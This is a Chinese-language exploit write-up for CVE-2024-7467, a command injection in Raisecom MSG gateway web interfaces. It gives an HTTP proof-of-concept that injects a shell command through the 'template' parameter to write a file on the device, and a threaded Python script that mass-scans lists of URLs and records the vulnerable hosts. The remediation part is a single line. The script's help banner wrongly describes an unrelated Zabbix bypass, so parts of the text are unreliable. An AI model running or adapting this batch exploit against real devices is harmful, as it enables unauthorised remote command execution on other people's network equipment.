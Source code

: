# 漏洞描述
<font style="color:rgb(52, 58, 64);">在 Raisecom MSG1200、MSG2100E、MSG2200 和 MSG2300 3.90 中发现漏洞，并被归类为严重漏洞。受此问题影响的是组件 Web 界面文件 /vpn/list_ip_network.php 的函数 sslvpn_config_mod。参数 template/stylenum 的操纵会导致操作系统命令注入。攻击可能远程发起。该漏洞已向公众披露，可能会被利用。此漏洞的标识符为 VDB-273560。注意：供应商已就此披露与供应商联系，但供应商未做出任何回应。</font>

# <font style="color:rgb(52, 58, 64);">公布时间</font>
<font style="color:rgb(33, 37, 41);">2024-08-05</font>

# <font style="color:rgb(33, 37, 41);">来源</font>
[https://avd.aliyun.com/detail?id=AVD-2024-7467&timestamp__1384=n4%2BxRD0GG%3DiteBK0QYDs9AW9DBDfExxGItU34x](https://avd.aliyun.com/detail?id=AVD-2024-7467&timestamp__1384=n4%2BxRD0GG%3DiteBK0QYDs9AW9DBDfExxGItU34x)

# 漏洞复现
poc

echo写入123123到/tmp/123.php中

```http
POST /vpn/list_service_manage.php?template=%60echo+-e+%27123123%27%3E%2Fwww%2Ftmp%2F123.php%60 HTTP/1.1
Host: 
Content-Length: 111
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

Nradius_submit=true
```

访问

```http
GET /tmp/123.php HTTP/1.1
Host: 
Content-Length: 0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36


```

![](https://cdn.nlark.com/yuque/0/2024/png/46595937/1733988328026-e864794a-b099-4d79-9931-d532df52c1c1.png)

# py脚本
```python
#coding:utf-8
import argparse
import requests
import re
import time
import random
import base64
import json
import concurrent.futures
import sys
import urllib.parse

# 禁用 SSL 警告
requests.packages.urllib3.disable_warnings()

timeout = 10  # 请求超时时间
max_retries = 3  # 最大重试次数

def verify(url,proxies={}):
    if not url.startswith(('http://', 'https://')):
        # 如果没有，就添加 'http://'
        url = 'http://' + url
    result={}
    retries = 0
    headers = {
        'Content-Type': 'application/x-www-form-urlencoded',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36'
    }
    data = """Nradius_submit=true"""

    vulnurl = url + "/vpn/list_service_manage.php?template=%60echo+-e+%27123123%27%3E%2Fwww%2Ftmp%2F123.php%60"
    okurl = url + "/tmp/123.php"
    while retries < max_retries:
        try:
            # 发送 POST 请求
            r = requests.post(vulnurl, headers=headers, data=data, verify=False, timeout=timeout)
            if r.status_code == 200:
                if '123123' in requests.get(okurl, headers=headers).text:
                    print('\033[1;31m' + '[+] Success ' + url + '\033[0m')
                    with open('CVE-2024-7467.txt', 'a') as f:
                        f.write(url + '\n')
                    result['isVul'] = True
                    return result

            print("[-] No vulnerabilities found")
            return result

        except requests.exceptions.RequestException as e:
            retries += 1
            print(e)
            # time.sleep(random.uniform(1, 3))  # 加长重试时间间隔

    print(f"[-] Failed to verify {max_retries} attempts.")
    return result

def pl(filename):
    try:
        with open(filename, 'r', encoding='utf-8') as f:
            urls = [line.strip() for line in f.readlines() if line.strip()]
        return urls
    except Exception as e:
        print(f"[-] Error reading file {filename}: {e}")
        return []

def help():
    # helpinfo = """ """
    # print(helpinfo)
    print("Zabbix SAML SSO认证绕过漏洞（CVE-2022-23131）".center(100, '*'))
    print(f"[+]{sys.argv[0]} -u --url http://www.xxx.com 即可进行单个漏洞检测")
    print(f"[+]{sys.argv[0]} -f --file targetUrl.txt 即可对选中文档中的网址进行批量检测")
    print(f"[+]{sys.argv[0]} -p --proxies 代理设置")
    print(f"[+]{sys.argv[0]} -t --thread 线程设置，默认为10")
    print(f"[+]{sys.argv[0]} -h --help 查看更多详细帮助信息")
    print("--@ztomato".rjust(100," "))

def main():
    parser = argparse.ArgumentParser(description='@ztomato')
    parser.add_argument('-u','--url', type=str, help='单个漏洞网址')
    parser.add_argument('-f','--file', type=str, help='批量检测文本')
    parser.add_argument('-t','--thread',type=int, help='线程，默认为10')
    parser.add_argument('-p', '--proxies', type=str, help='代理设置，如 http://127.0.0.1:8080')
    args = parser.parse_args()

    proxies = {}
    if args.proxies:
        proxies = {'http': args.proxies, 'https': args.proxies}

    if args.url:
        verify(args.url, proxies=proxies)
    elif args.file:
        urls = pl(args.file)
        if not urls:
            print(f"[-] No valid URLs found in {args.file}")
            return

        thread = 10
        if args.thread:
            thread = args.thread
        with concurrent.futures.ThreadPoolExecutor(max_workers=thread) as executor:
            # 使用 executor.map 实现并发调用
            results = list(executor.map(lambda url: verify(url, proxies=proxies), urls))
            # 可选：打印结果
            # for result in results:
            #     if result and result.get('isVul'):
            #         print(f"[+] Vulnerability confirmed for {result['url']}")
    else:
        help()

if __name__ == '__main__':
    main()
```

# 修复建议
<font style="color:rgb(52, 58, 64);">建议更新当前系统或软件至最新版，完成漏洞的修复。</font>

